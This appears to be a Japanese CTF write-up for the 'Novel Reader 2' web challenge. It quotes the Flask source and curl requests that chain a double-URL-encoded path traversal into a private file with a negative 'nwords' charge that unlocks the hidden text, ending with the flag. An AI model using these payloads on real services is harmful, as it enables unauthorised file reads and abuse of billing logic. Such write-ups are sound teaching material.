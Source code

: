 # Novel Reader 2:Web:pts
Submit the second flag of "Novel Reader" here  

# Solution
[Novel reader](../Novel_reader)の続きのようだ。  
ファイル構造を再度確認すると以下のようであった。  
```bash
$ tree
.
├── index.html
├── main.py
├── private
│   └── A-Secret-Tale.txt
├── public
│   ├── A-Happy-Tale.txt
│   └── A-Sad-Tale.txt
└── static
    ├── script.js
    └── style.css

3 directories, 7 files
$ cat private/A-Secret-Tale.txt
Once a upon time there was a flag. The flag was read like this: MAPNA{test-flag}. FIN.
```
`private`の`A-Secret-Tale.txt`にフラグが書かれている。  
トラバーサルして読み取ってみる。  
```bash
$ curl -H 'Cookie: session=eyJjcmVkaXQiOjAsIndvcmRzX2JhbGFuY2UiOjExfQ.Za0PlQ._41fKxqQM14l0Afp4vvm1y5-bz4' --path-as-is 'http://3.64.250.135:9000/api/read/public/%252e%252e%252fprivate%252fA-Secret-Tale.txt'
{"msg":"Once a upon time there was a flag. The flag was... Charge your account to unlock more of the novel!","success":true}
```
途中までしか読み取れていない。  
ソースの読み取り個所を確認する。  
```python
~~~
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
~~~
```
スペースで分割されている。  
`buf[0:session['words_balance']]`により`buf[0:10]`しか読み取れていないことがわかる。  
`Words Balance`を管理する箇所を調査する。  
```python
~~~
@app.post('/api/charge')
def buyWord():
    nwords = request.args.get('nwords')
    if(nwords):
        nwords = int(nwords[:10])
        price = nwords * 10
        if(price <= session['credit']):
            session['credit'] -= price
            session['words_balance'] += nwords
            return {'success': True, 'msg': 'Added to your account!'}
        return {'success': False, 'msg': 'Not enough credit.'}, 402
    else:
        return {'success': False, 'msg': 'Missing parameteres.'}, 400
~~~
```
入力値`nwords`をintにキャストし、`session['words_balance'] += nwords`している。  
ここで負の数も使用できることに気づく。  
すると、`buf[0:-1]`となり、末尾の要素の一つ前まで取得できる。  
以下のように実行する。  
```bash
$ curl -X POST http://3.64.250.135:9000/api/charge?nwords=-2 -I
HTTP/1.1 200 OK
Server: nginx/1.23.2
Date: Sun, 21 Jan 2024 12:52:51 GMT
Content-Type: application/json
Content-Length: 48
Connection: keep-alive
Vary: Cookie
Set-Cookie: session=eyJjcmVkaXQiOjEyMCwid29yZHNfYmFsYW5jZSI6LTF9.Za0Tow.d4wb0ZkusjNa85pVXZ9OyNvjHBg; HttpOnly; Path=/

$ curl -H 'Cookie: session=eyJjcmVkaXQiOjEyMCwid29yZHNfYmFsYW5jZSI6LTF9.Za0Tow.d4wb0ZkusjNa85pVXZ9OyNvjHBg' --path-as-is 'http://3.64.250.135:9000/api/read/public/%252e%252e%252fprivate%252fA-Secret-Tale.txt'
{"msg":"Once a upon time there was a flag. The flag was read like this: MAPNA{uhhh-y0u-607-m3-4641n-3f4b38571}.... Charge your account to unlock more of the novel!","success":true}
```
flagが得られた。  

## MAPNA{uhhh-y0u-607-m3-4641n-3f4b38571}
